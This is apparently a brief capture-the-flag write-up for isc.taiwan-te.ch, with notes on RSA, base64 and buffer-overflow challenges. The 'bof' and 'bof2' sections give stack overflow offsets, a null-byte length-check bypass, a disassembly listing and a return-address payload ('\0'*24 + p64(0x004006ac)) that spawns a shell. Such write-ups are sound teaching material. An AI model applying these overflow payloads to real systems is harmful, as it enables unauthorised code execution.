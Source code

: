 # isc.taiwan-te.ch

## Crypto

### Easy RSA

Use Typical RSA Dercrypt method

see script


## Misc

### base64

same as [pwntools](#pwntools), base64 decode the getline then remove `?` and `=`

is flag `お疲れ様`? (flag incorrect, reason unknown)



## PWN

### pwntools

ez to solve

### bof

the buffer size is 0x10(16 in demical)

so overwrite the stack with 16 'A's, and the RBP with 8 'A's

and return to `0x400607` to spawn shell

### bof2

the buffer size if 0x10(as [bof1](#bof1)

but the lengh of input is limited, so use '\0' to bypass lenth limit

and also in function <y0u_c4n7_533_m3> requires a varible to be 1 ,

or it won't spawn shell

use `objdump` to analyze instructions


  0000000000400697 <y0u_c4n7_533_m3>:
  400697:       55                      push   %rbp
  400698:       48 89 e5                mov    %rsp,%rbp
  40069b:       48 83 ec 10             sub    $0x10,%rsp
  40069f:       c7 45 fc 00 00 00 00    movl   $0x0,-0x4(%rbp)
  4006a6:       83 7d fc 00             cmpl   $0x0,-0x4(%rbp)
  4006aa:       74 18                   je     4006c4 <y0u_c4n7_533_m3+0x2d>
  4006ac:       ba 00 00 00 00          mov    $0x0,%edx
  4006b1:       be 00 00 00 00          mov    $0x0,%esi
  4006b6:       48 8d 3d 1b 01 00 00    lea    0x11b(%rip),%rdi        # 4007d8 <_IO_stdin_used+0x8>
  4006bd:       e8 be fe ff ff          callq  400580 <execve@plt>
  4006c2:       eb 16                   jmp    4006da <y0u_c4n7_533_m3+0x43>
  4006c4:       48 8d 3d 15 01 00 00    lea    0x115(%rip),%rdi        # 4007e0 <_IO_stdin_used+0x10>
  4006cb:       e8 80 fe ff ff          callq  400550 <puts@plt>
  4006d0:       bf 00 00 00 00          mov    $0x0,%edi
  4006d5:       e8 c6 fe ff ff          callq  4005a0 <exit@plt>
  4006da:       c9                      leaveq 
  4006db:       c3                      retq


return to address `4006ac` to spawn a shell

payload: '\0'*24 + p64(0x004006ac)


